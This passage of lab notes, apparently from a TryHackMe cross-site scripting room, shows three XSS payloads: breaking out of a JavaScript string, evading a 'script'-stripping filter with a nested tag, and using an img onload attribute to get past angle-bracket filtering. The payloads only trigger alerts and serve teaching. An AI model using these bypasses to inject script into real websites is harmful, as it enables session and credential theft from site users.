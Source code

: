 #### **Payload Example 4 - Escape JavaScript code** <a href="#t2gbe2f76bk4" id="t2gbe2f76bk4"></a>

* Presented with a form asking to enter a name.
* Appears similar to example 1.
* Viewing the page source, name gets reflected in some JavaScript code:
  * \<script>
  * document.getElementByClassName('name')\[0].innerHTML='Andy';
  * \</script>
* Need to escape the existing JavaScript command to run payload:
  * \<script>
  * document.getElementByClassName('name')\[0].innerHTML='';alert('THM');//'
  * \</script>
    * The ' closes the field specifying the name.
    * Then ; signifies the end of the current command.
    * The // at the end makes anything after it a comment rather than executable code.
* Now when clicking the enter button, an alert will popup with the string THM.

#### **Payload Example 5 - Escape a Filtered Input Box** <a href="#idtlp8rxnlat" id="idtlp8rxnlat"></a>

* Presented with a form asking to enter a name.
* Appears similar to example 1.
  * However, \<script>alert('THM');\</script> does not work.
* The word script gets removed from the payload due to a filter that strips out any potentially dangerous words.
* There's a trick that you can be tried when a word gets removed from a string: \<sscriptcript>alert('THM');\</sscriptcript>.
* Now when clicking the enter button, an alert will popup with the string THM.

#### **Payload Example 6 - Escape a Filtered Input Tag** <a href="#id-6wgibzwv4ddp" id="id-6wgibzwv4ddp"></a>

* Similar to example two.
  * However, ">\<script>alert('THM');\</script> does not work.
* View page source to see why payload doesn't work:
  * \<div vlass="text-center">
  * \<h2>Your Picture\</h2>
  * \<img src=""scriptalert('THM');/script">
  * \</div>
* < and > characters get filtered out from our payload preventing the 'IMG' tag escape.
* Take advantage of the onload event attribute of the IMG tag to get around the filter.
  * The onload event executes the code once the image specified in the src attribute has loaded onto the web page.
* Change the payload to /images/cat.jpg" onload="alert('THM');
* View the page source to see how this will work:
  * \<div vlass="text-center">
  * \<h2>Your Picture\</h2>
  * \<img src="/imges/cat.jpg" onload="alert(HTM);">
  * \</div>
* Now when clicking the enter button, an alert will popup with the string THM.
